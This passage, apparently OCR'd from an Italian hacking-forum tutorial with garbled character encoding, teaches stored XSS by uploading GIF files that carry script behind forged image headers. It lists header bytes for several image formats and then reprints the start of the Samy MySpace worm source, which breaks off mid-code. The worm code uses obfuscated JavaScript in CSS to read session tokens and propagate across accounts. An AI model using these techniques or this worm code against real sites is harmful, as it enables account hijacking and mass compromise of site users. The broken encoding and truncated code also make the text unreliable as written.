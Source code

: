 Ora salviamo l'immagine (sempre in .gif) e facciamo l'upload sul sito vittima / forum /

sezione commenti ..
Ora questa xss Ã¨ diventata permanente poichÃ¨ chiunque vada sull'url contenente questa

immagine.gif potrÃ  oservare il nostro alert!
(Mozilla FireFox non mostra sempre questi tipi di alert, IE invece si)

Ricordiamoci che per ogni estensione di immagine quei pochi caratteri cambiano, qui vi

riporto una lista dei suddetti caratteri:

-PNG = â€°PNG

-GIF = GIF89a

-JPG = Ã¿Ã˜Ã¿Ã  JFIF

-BMP = BMFÃ–




Code:
[+] XSS W0rm:

Questo Ã¨ un argomento non molto sviluppato proprio perchÃ¨ Ã¨ ancora in fase di sviluppo,

basti pensare infatti che il primo w0rm legato alle XSS Ã¨ nato nel 2005 e si chiamava Samy;
Samy era un w0rm per myspace,e per evitare le restrizioni del provider, che non consente

l'upload di javascript, l'utente ha inserito lo script nei CSS e Internet Explorer ha fatto

il resto. Il codice, infatti, avrebbe dovuto essere considerato un CSS non valido, ma IE lo

ha eseguito e lo ha fatto propagare per i membri della community.
Attraverso questo verme Samy ha infettato piÃ¹ di un milione di account e continuava a

replicarsi aggiungendo amici al profilo dell utente creatore del w0rm.(alle 9.30 della

stessa notte le richieste erano milioni e continuavano ad affluire ogni millesimo di

secondo, cosÃ¬ facendo myspace Ã¨ caduto ed Ã¨ andato offline)
Code of Samy:

<div id=mycode style="BACKGROUND: url('java
script:eval(document.all.mycode.expr)')" expr="var B=String.fromCharCode(34);var

A=String.fromCharCode(39);function g(){var C;try{var

D=document.body.createTextRange();C=D.htmlText}catch(e){}if(C){return C}else{return

eval('document.body.inne'+'rHTML')
}}
function getData(AU){M=getFromURL(AU,'friendID');L=getFromURL(AU,'Mytoken')}function

getQueryParams(){var E=document.location.search;var F=E.substring(1,E.length).split('&');var

AS=new Array();for(var O=0;O<F.length;O++){var I=F[O].split('=');AS[I[0]]=I[1]}return AS}var

J;var AS=getQueryParams();var L=AS['Mytoken'];var

M=AS['friendID'];if(location.hostname=='profile.myspace.com'){document.location='http://www.
